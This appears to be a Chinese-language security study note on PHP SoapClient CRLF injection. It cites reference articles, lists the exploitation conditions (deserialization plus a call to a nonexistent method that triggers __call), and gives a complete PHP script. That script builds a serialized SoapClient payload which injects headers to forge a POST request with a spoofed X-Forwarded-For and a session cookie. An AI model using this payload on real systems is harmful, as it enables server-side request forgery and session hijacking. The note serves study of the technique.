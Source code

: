 # Soap和CRLF攻击
**参考文章：**

- https://www.anquanke.com/post/id/153065#h2-5
- https://xz.aliyun.com/t/2148#toc-0
- https://segmentfault.com/a/1190000003791120
- http://blog.securelayer7.net/owasp-top-10-penetration-testing-soap-application-mitigation/

**函数构造：**

```php
public SoapClient::SoapClient ( mixed $wsdl [, array $options ] )
```

>  **options**
>
> An array of options. If working in WSDL mode, this parameter is optional. If working in non-WSDL mode, the *location* and *uri* options must be set, where *location* is the URL of the SOAP server to send the **request to**, and *uri* is the target namespace of the SOAP service.

## CRLF攻击

**利用条件：**

- 需要进行反序列化
- 调用一个方法，且该方法不存在。以此激活__call()

**利用范围：**

- (PHP 5, PHP 7)

**利用脚本：**

```php
<?php
$target = "http://xxx.xxx.xxx.xxx:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa);
echo urlencode($aaa);
$aa=unserialize($aaa);
$aa->test();
```

![](/images/19-7-13_PHP_Soap和CRLF攻击_CRLF攻击_1.png)